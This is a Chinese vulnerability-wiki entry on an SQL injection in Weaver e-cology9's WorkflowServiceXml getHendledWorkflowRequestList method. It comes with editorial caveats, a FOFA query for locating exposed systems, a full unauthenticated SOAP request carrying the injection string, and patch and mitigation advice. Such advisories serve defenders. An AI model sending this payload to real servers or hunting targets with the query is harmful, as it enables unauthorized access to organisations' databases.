



# 泛微e-cology9 WorkflowServiceXml getHendledWorkflowRequestList SQL注入

## 条目说明

- 对象与具体问题：泛微e-cology9；WorkflowServiceXml getHendledWorkflowRequestList SQL注入
- 版本、配置及部署条件：补丁时间2024-07-10以前声称
- 认证与权限前提：无凭证SOAP，未明确鉴权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 与同名服务XStream RCE是不同方法/漏洞，不可按WorkflowServiceXml去重
- 只有1=1 AND2=2条件不能单独证明注入，应补反例/结果差异，截图未视检
- 修复引用[1]但实际无参考链接；HTTP/XML未围栏；在野利用无依据

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

该漏洞是由于泛微e-cology未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现 SQL 注入漏洞。

影响范围

e-cology 9 < 补丁版本 2024-07-10

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="泛微-OA（e-cology）"

POC/EXP：

```http
POST /services/WorkflowServiceXml HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Content-Type: text/xml
Connection: close

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservices.workflow.weaver"> 
  <soapenv:Header/>
    <soapenv:Body>
      <web:getHendledWorkflowRequestList>
        <web:in0>1</web:in0>
        <web:in1>1</web:in1>
        <web:in2>1</web:in2>
        <web:in3>1</web:in3>
        <web:in4>
          <web:string>1=1 AND 2=2</web:string>
        </web:in4>
        </web:getHendledWorkflowRequestList>
    </soapenv:Body>
</soapenv:Envelope>
```











## 修复方案

升级修复方案

官方已发布升级补丁包，支持在线升级和离线补丁安装，可在参考链接[1]进行下载使用。

临时缓解方案

临时缓解方案可能无法完全阻止漏洞的利用，强烈建议尽快升级到修复版本。

1. 使用WAF等安全设备进行防护。

2. 在不影响业务的情况下配置URL访问控制策略。

3. 限制访问来源地址，如非必要，不要将系统开放在互联网上。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
